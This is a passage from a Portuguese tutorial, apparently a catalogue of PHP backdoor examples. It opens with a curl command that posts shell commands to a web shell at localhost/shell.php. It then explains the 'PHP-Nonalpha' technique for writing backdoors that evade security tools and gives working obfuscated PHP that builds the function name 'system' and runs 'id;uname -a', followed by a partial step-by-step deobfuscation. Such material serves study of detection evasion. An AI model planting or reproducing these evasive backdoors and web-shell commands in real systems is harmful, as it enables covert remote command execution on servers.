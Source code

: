Execução: 
```bash
curl -d 'shellrox=id;uname -a' -X POST 'http://localhost/shell.php'
```

---

#### EXEMPLO 10

**Técnica PHP-Nonalpha**

A técnica PHP-Nonalpha é uma abordagem utilizada por atacantes para criar backdoors PHP que evitam detecção por ferramentas de segurança. 

- Características:
1. O código malicioso é escrito utilizando caracteres não alfanuméricos, como símbolos, espaços em branco ou caracteres especiais.
2. O código é codificado em hexadecimal para evitar detecção por ferramentas de segurança.
3. O código utiliza funções de string para decodificar e executar o código malicioso.

**Características do Backdoor PHP-Nonalpha**

- Características:
1. O código é compacto e difícil de ler.
2. Uso de funções obscuras: O código utiliza funções pouco conhecidas ou obscuras para evitar detecção.
3. Palavras-chave: O código evita usar palavras-chave comuns em backdoors, como "eval" ou "system".

Functions:
- NON ALPHA NUMERIC <http://www.thespanner.co.uk/2012/08/21/php-nonalpha-tutorial/>
- VARIABLE FUNCTIONS <http://php.net/manual/pt_BR/functions.variable-functions.php>
- SYSTEM <http://php.net/manual/pt_BR/function.system.php>

Code:
```php
($_="").($_[+$_]++).($_=$_."").($_=$_[+""]).($_++)
.($_++).($_++).($_++).($___[]=$_++).($_++).($_++)
.($_++).($_++).($_++).($_++).($_++).($___[]=$_++)
.($_++).($_++).($_++).($_++).($_++).($___[]=$_++)
.($___[]=$_++).($_++).($_++).($_++).($_++)
.($___[]=$_++).($_++)
.($_____=$___[2].$___[4].$___[2].$___[3].$___[0].$___[1])
.($_____('id;uname -a'));
```

**Debugar o código:**

1. Inicialização
- `$_ = ""`: Inicializa a variável `$_` como uma string vazia.

1. Criação de array
- `$_[$_[+$_]]++`: Cria um array `$_` com um elemento vazio e incrementa o valor.

1. Construção da string
- `$_ = $_ . ""`: Concatena a string vazia com a variável `$_` que converte para string "Array".
- `$_ = $_[+""]`: Recupera o valor do elemento vazio do array. acessa o índice 0 da string "Array" que é "A"
